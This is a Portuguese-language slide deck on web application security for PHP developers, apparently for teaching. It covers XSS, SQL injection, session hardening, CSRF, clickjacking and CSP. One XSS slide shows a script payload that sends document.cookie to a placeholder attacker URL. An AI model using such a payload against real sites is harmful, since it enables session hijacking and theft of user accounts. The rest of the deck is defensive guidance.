 #HSLIDE
# Segurança no desenvolvimento web
<link rel="stylesheet" type="text/css" href="https://fonts.googleapis.com/css?family=Ubuntu+Mono">

#HSLIDE
## Pilares da Segurança da Informação  
- Confidencialidade
- Integridade
- Disponibilidade

#HSLIDE
## Princípios  
- Segurança em múltiplas camadas
- Considere que cada camada eventualmente falhará
- Forneça o mínimo de informação necessária

#HSLIDE
## Validação de entradas
Considerando que a requisição HTTP pode ser manipulada pelo cliente, toda entrada do usuário deve ser validada.

#HSLIDE
### Proteção
- Para isso, o PHP oferece as extensões ***ctype*** e ***filter***. 
Além disso, a maioria dos frameworks de mercado implementam algum tipo de tratamento/sanitização de dados.
- PHP 7+ oferece ***type declarations*** que permitem especificar o tipo esperado de parâmetros.
Para isso:
```php
declare(strict_types=1);
```
#HSLIDE
## Cross-site scripting (XSS)
Ocorre quando um script inserido por um usuário é armazenado e/ou executado pela aplicação. 

#HSLIDE
### Exemplo
```javascript
<script>
(new Image()).src = “http://urldoatacante/?” + escape(document.cookie);
</script>
```
#HSLIDE
### Tipos
* Armazenado
* Não-persistente
* Baseado em DOM

#HSLIDE
### Consequências
- Roubo de *cookie*/sessão
- Manipulação de DOM
- *Keylogger*
- *Browser exploits*
- Basicamente tudo que o JavaScript permite

#HSLIDE
### Proteção
- [*Same-origin Policy*](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy) faz com que apenas códigos do mesmo *origin* (protocolo/domínio/porta) tenham acesso à aplicação, ao mesmo tempo que permite acesso a arquivos externos (uma lib como o [JQuery](https://jquery.com/), por exemplo)
- Filtrar entradas ([*strip_tags*](http://php.net/manual/en/function.strip-tags.php), [*filter_var*](http://php.net/manual/en/function.filter-var.php), [*preg_replace*](http://php.net/manual/en/function.preg-replace.php))
- Escapar as saídas ([*htmlspecialchars*](http://php.net/manual/en/function.htmlspecialchars.php), [*htmlentities*](http://php.net/manual/en/function.htmlentities.php), [*filter_var*](http://php.net/manual/en/function.filter-var.php))
- Aplicar [*Content Security Policy*](https://content-security-policy.com/) (*default-src*, *img-src*, *script-src*) -> eliminar código inline
#HSLIDE
### Testando a CSP
```
Content-Security-Policy-Report-Only
report-uri /caminho/arquivo.php
```

#HSLIDE
## SQL Injection

### Proteção
- Não concatenar dados (parâmetros) com comandos
- Utilizar prepared statements
- Validar entradas
- Escapar caracteres

#HSLIDE
## Gerenciamento de estado

### Proteção
- Usar HTTPS
- Definir *secure* e *HttpOnly* *flags*
- Prevenir XSS
- [Alterar](http://php.net/manual/en/function.session-regenerate-id.php) ID de sessão
- Armazenar informação do usuário na sessão (*headers*)
- Detectar sequestro de sessão
- Usar [HSTS](https://www.owasp.org/index.php/HTTP_Strict_Transport_Security_Cheat_Sheet) para dificultar o roubo de sessão

#HSLIDE
### Diretivas
```php
session.use_strict_mode = true;
session.cookie_secure = true;
session.use_only_cookies = true;
session.cookie_httponly = true;

Strict-Transport-Security: max-age=86400; includeSubDomains
```

#HSLIDE
## Cross-site Request Forgery (CSRF)
- Causado por vírus, scam/phishing, site/redirecionamento malicioso

### Proteção
- Não usar GET para operações que envolvam manipulação de dados (porém, o POST também pode ser manipulado)
- Enviar token 
#HSLIDE
### Clickjacking
- Atacante cria página e, através de requisições para o site alvo (usualmente via iframe), aproveita-se da sessão do usuário

#### Proteção
```php
header(‘X-FRAME-OPTIONS’, ‘DENY’); //ou SAMEORIGIN
```

#HSLIDE
## Ferramentas
- [Arachni web scanner](http://www.arachni-scanner.com/)
- [Dependencies security checker](https://github.com/sensiolabs/security-checker)

#HSLIDE
## Referências
[OWASP](https://www.owasp.org)
